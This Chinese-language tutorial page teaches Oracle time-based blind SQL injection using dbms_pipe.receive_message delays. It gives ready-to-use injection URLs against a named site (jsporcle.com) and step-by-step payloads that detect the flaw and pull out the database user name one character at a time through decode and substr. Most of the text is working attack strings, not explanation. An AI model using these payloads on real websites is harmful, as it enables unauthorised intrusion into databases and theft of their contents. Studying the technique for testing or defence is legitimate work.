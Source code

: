 ## 1、简介

**DBMS_LOCK.SLEEP()** 函数可以让一个过程休眠很多秒，但使用该函数存在许多限制。首先，不能直接将该函数注入子查询中，因为Oracle不支持堆叠查询(stacked query)。其次，只有数据库管理员才能使用DBMS_LOCK包。在Oracle PL/SQL中有一种更好的办法，可以使用下面的指令以内联方式注入延迟：

```http
dbms_pipe.receive_message('RDS', 10)  
```

**DBMS_PIPE.RECEIVE_MESSAGE** 函数将为从RDS管道返回的数据等待10秒。默认情况下，允许以public权限执行该包。**DBMS_LOCK.SLEEP()** 与之相反，它是一个可以用在SQL语句中的函数。

## 2、注入技巧

延时注入属于盲注入的一种，适用的场景较多，基本上任何注入都可以使用这种注入方式进行测试

## **3、判断注入**

```http
http://www.jsporcle.com/news.jsp?id=-1 or 1= dbms_pipe.receive_message('RDS', 10)--
http://www.jsporcle.com/news.jsp?id=1 and 1=dbms_pipe.receive_message('RDS', 10)--
```

如果页面延时10秒返回，即存在注入。

## 4、延时注入

从上一节盲注入里 介绍了 两种布尔型盲注入方式，一种是decode盲注入，另外一种是逐字猜解法盲注入

这里可以使用decode盲注入

```http
and 1=(select decode(substr(user,1,1),'S',1,0) from dual) --
```

在decode注入里加入延时语句。

```http
and 1=(select decode(substr(user,1,1),'S',dbms_pipe.receive_message('RDS',10),0) from dual) --
http://www.jsporcle.com/news.jsp?id=1 and 1=(select decode(substr(user,1,1),'S',dbms_pipe.receive_message('RDS',5),0) from dual) --
```

![image-20210409231059618](../../acess/image-20210409231059618.png) 

**4、查询数据**

首先判断长度 6

```sql
(select decode(length(user),6,dbms_pipe.receive_message('RDS', 10)  ,0) from dual);
```

网站测试语句

```http
http://www.jsporcle.com/news.jsp?id=1 and 1=(select decode(length(user),6,dbms_pipe.receive_message('RDS',10),0) from dual)--
```

查询第一个字符

```sql
(select decode(substr(user,1,1),'S',dbms_pipe.receive_message('RDS', 10),0) from dual) --
(select decode(substr(user,2,1),'Y',dbms_pipe.receive_message('RDS', 10),0) from dual) --
(select decode(substr(user,3,1),'S',dbms_pipe.receive_message('RDS', 10),0) from dual) --
(select decode(substr(user,4,1),'T',dbms_pipe.receive_message('RDS', 10),0) from dual) --
(select decode(substr(user,5,1),'E',dbms_pipe.receive_message('RDS', 10),0) from dual) --
(select decode(substr(user,6,1),'N',dbms_pipe.receive_message('RDS', 10),0) from dual) --
```

网站测试

```http
http://www.jsporcle.com/news.jsp?id=1 and 1=(select decode(substr(user,1,1),'S',dbms_pipe.receive_message('RDS',10),0) from dual) --
```

![image-20210409232345208](../../acess/image-20210409232345208.png)

